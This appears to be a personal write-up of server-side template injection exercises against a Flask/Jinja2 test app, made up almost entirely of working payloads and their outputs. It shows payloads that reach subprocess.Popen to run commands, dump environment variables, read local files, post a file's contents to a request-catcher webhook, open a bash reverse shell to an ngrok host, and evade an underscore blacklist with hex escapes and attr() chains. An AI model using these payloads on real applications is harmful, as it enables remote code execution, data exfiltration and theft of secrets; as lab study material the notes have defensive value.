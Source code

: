 <h1>Without blacklist:</h1>

1) return the index of urllib in subclasses()
```
{{__self__.__init__}}

<bound method Undefined.__init__ of Undefined>

{{__self__.__init__.__class__}} or {{().__class__}}
<class 'method'>

{{__self__.__init__.__class__.__base__}}
<class 'object'>

{{ __self__.__init__.__class__.__base__.__base__}}
None

{{__self__.__init__.__class__.__base__.__subclasses__}}
<built-in method __subclasses__ of type object at 0x00007FF8B2656750>

Final payload:
{{__self__.__init__.__class__.__base__.__subclasses__()}} 
```

Output:

![a](a.png)

11 instances of class urllib.
Index of <class 'urllib.request.Request'> : {{__self__.__init__.__class__.__base__.__subclasses__()[338]}} 

Could not figure out how to do this using the index() method.


2) get name of current python flask script

```
{{config.__class__.__init__.__globals__}}
```
![b](b.png)
```
{{config.__class__.__init__.__globals__.__builtins__}}
```
![c](c.png)
```
{config.__class__.__init__.__globals__.__builtins__.__import__}}
<built-in function __import__>

{{config.__class__.__init__.__globals__.__builtins__.__import__('__main__').__file__}}

```
Output:
c:\Users\risha\Rishabh extras\Programming\ssti.py


3) get all the current envvars
```
{{request.application.__globals__.__builtins__.__import__('os').environ}}
```

![d](d.png)


4) read a local file
{{get_flashed_messages.__globals__.__builtins__.open("test.py").read() }}

```
{{get_flashed_messages}}
<function get_flashed_messages at 0x000002C3647D1440>

{{get_flashed_messages.__globals__}}
```
![e](e.png)


5) run a command

```

{{ (""|attr("1")|attr("__class__"))}}
<class 'jinja2.runtime.Undefined'>


{{(""|attr("1")|attr("__class__")|attr("__base__")|attr("__subclasses__")())[258]}}
<class 'subprocess.Popen'>

{{((""|attr("1")|attr("__class__")|attr("base"))|attr("__subclasses__")()[258]('whoami', shell=True, stdout=-1)|attr("communicate"))}}

(b'test1\n', None)

```
![f](f.png)

6) send the contents of etc pass to  awebhook

{{request['__class__']['__init__']['__globals__']['__builtins__']['__import__']('requests')['post']['__call__']('https://a.requestcatcher.com',data={'file':request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/cracklib/cracklib.conf").read()})}}

![g](g.png)

![h](h.png)


7) rev shell
```
().__class__.__base__.__subclasses__()[258]('bash -c ‘exec bash -i &>/dev/tcp/<ngrok_IP>/<ngrok_port> <&1’', shell=True, stdout=-1).communicate()
Tried this ().__class__.__base__.__subclasses__()[259]('curl a.requestcatcher.com', shell=True, stdout=-1).communicate() and it works.
 Just have to figure out how to get it to connect to ngrok
```

<h1>Blacklist applied:</h1>

1)
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
{{request|attr(request.query_string[2:12].decode())|attr(request.query_string[15:23].decode())?c=__class__&d=__base__}}

Without ' or " constructing payloads is very difficult. It leaves very few options as far as I understand like the example one.
2){{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}

6){{request['x5f\x5fclass\x5f\x5f']['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fim'+'port\x5f\x5f']('requests')['post']['\x5f\x5fcall\x5f\x5f']('https://a.requestcatcher.com',data={'file':request.\x5f\x5fclass\x5f\x5f.\x5f\x5finit\x5f\x5f.\x5f\x5fglobals\x5f\x5f.\x5f\x5fbuiltins\x5f\x5f.open.\x5f\x5fcall\x5f\x5f("/etc/cracklib/cracklib.conf").read()})}}

